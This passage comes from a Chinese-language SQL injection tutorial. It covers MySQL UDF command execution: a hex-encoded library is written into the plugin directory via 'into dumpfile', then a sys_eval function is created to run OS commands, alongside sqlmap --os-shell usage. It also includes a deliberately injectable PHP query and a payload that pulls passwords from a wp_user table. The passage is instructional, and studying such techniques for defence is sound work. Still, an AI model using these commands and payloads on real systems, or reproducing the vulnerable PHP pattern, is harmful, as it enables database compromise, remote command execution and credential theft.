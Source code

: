 #### 11.2.2 UDF 库文件写入

将 so 文件转成 16 进制，以 16 进制编码形式写入

```sql
select unhex('???') into dumpfile '/usr/lib/mysql/plugin/lib_linux.so'
```

#### 11.2.3 dumpfile vs. outfile

若我们想把一个可执行 2 进制文件用 into outfile 函数导出事实上导出后就会被破坏。

因为 into outfile 函数会在行末端写入新行，更致命的是会转义换行符，这样的话这个 2 进制可执行文件就会被破坏。

这时候我们用 into dumpfile 就能导出一个完整能执行的 2 进制文件 into dumpfile 函数不对任何列或行进行终止，也不执行任何转义处理。

#### 11.2.4 自定义函数

```sql
create function sys_eval returns string soname "lib_linux.so";
select sys_eval('ifconfig');
```

### 11.3 自动化工具

```bash
sqlmap -u "url" --os-shell
sqlmap -u "url" --os-cmd=ifconfig
```

## 12、注入技巧

从 SQL 语法角度，从不同的注入点位置说明 SQL 注入的技巧

### 12.1 SELECT 注入

> select 语句用于数据表记录的查询，常在界面展示的过程中使用

#### 12.1.1 注入点在 select_expr

源代码如下所示：

```php
<?php
    $conn = mysqli_connect("127.0.0.1", "root", "root", "test");
	$res = mysqli_query($conn, "SELECT ${_GET['id']}, content FROM wp_news");
	$row = mysqli_fetch_array($res);
	echo "$row['title']";
	echo "$row['content']";
?>
```

可以采取时间盲注的方式，但是根据 MySQL 的语法，有更优的解决方法，即利用 AS 别名的方法，直接将查询的结果显示到界面中。

**payload**：`?id=(select pwd from wp_user as title)`

#### 12.1.2 注入点在 table_reference
